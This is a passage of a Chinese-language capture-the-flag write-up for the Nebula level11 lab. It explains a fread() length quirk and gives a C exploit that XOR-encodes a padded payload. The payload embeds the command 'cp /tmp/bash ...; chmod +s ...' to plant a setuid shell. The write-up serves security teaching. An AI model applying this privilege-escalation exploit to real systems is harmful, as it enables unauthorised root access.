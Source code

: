 `process()`函数内前面的异或反向处理非常简单，不再表述。最开始将目光聚焦于下面一段代码：

``` c
if(fread(buf, length, 1, stdin) != length) {
	err(1, "fread length");
}
process(buf, length);
```

但是发现`fread()`的第二、三个参数的值有些别扭，在这种情况下，它的返回值只能是1或0，所以length就只能是1了。所以我们就可以执行一个字母的命令，这可以通过增加`$PATH`变量、然后链接来实现命令执行。但一个问题是只写入一个字母，连字符串结束符`\0`都不能插入，所以只能多次尝试，以期栈上的后一个字节正好是`0x00`。

上面的方法过于麻烦，所以转而看else中的代码，只是要求输入长度大于1024，那么我们就直接在命令后填充无用字节就可以。实现程序：

``` c
//code.c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main() {
	char str[1025] = "cp /tmp/bash /home/flag11/;chmod +s /home/flag11/bash;";
	for (int i = strlen(str); i < 1025; i++) {		
		str[i] = 0x0;
	}
	int length = 1025;
	unsigned int key = length & 0xff;

	char c;
	for (int i = 0; i < length; i++) {
		c = str[i];
		str[i] ^= key;
		key -= c;
	}

	//FILE *f = fopen("/tmp/flag11", "wb");
	fprintf(stdout, "Content-Length: %d\n", length);
	for (int i = 0; i < length; i++) {
		fputc(str[i], stdout);
	}
	//fclose(f);
	return 0;
}
```

仍然打算采用我们之前的获取shell套路，设置好`TEMP`的环境变量之后执行程序：

![](Exploit-exercises-Nebula-remaining/level11_3.png)
